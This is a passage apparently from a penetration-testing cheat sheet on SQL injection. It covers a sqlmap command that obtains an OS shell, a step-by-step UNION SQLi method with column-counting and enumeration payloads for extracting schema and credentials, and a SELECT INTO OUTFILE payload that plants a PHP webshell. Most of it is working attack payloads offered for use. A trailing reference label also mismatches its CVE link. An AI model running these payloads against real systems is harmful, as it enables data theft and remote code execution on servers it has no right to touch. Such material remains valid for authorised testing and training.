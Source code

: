 Pro tip for `sqlmap`: if you save the GET/POST request of a SQLi attempt in burp,
you can pass that request file to `sqlmap` as a template for it's requests. You
can also pass it the webroot and `--os-shell` args to get it to give you a
webshell:

```sh
sqlmap -r post.txt -p FIELDNAME --os-shell --web-root "/var/www/html/tmp"
```


#### 4.5.3.1. UNION SQLi technique

The UNION SQL injection technique is helpful when the result of the original SQL
query is output/displayed to the user. Using UNION, we can ask for extra data
from the database that wasn't originally intended to be shown to the user (like creds).

For UNION SQLi attacks to work, we first need to satisfy two conditions:
- The injected UNION query has to include the same number of columns as the original query.
- The data types need to be compatible between each column.

First, determine how many columns are in the original query:

```sql
' ORDER BY 1-- #
```

Increment the value using binary search (2, 4, 8,...) until it errors out, then
use binary search to isolate the highest value that does NOT error out. This
is the number of columns in the original query.

Next, (optionally) figure out what column index goes where in your output.

```sql
-- assuming 3 columns from ORDER BY test
' union all select 1,2,3 -- #
```

Alternatively, use enumeration functions in output columns, shifting what goes
where in trial-and-error fashion until you get useful output:

```sql
-- assuming 5 columns from ORDER BY test, shifting enumeration output
' UNION SELECT database(), user(), @@version, null, null -- #
' UNION SELECT null, null, database(), user(), @@version -- #
```

Finally, gather whatever data from the database you desire. Start with understanding the schema:

```sql
-- getting table schema info
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- #
```

Additionally, you can get code execution on MySQL by creating a webshell with SELECT INTO OUTFILE:

```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/webshell.php" -- #
```


[cve2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744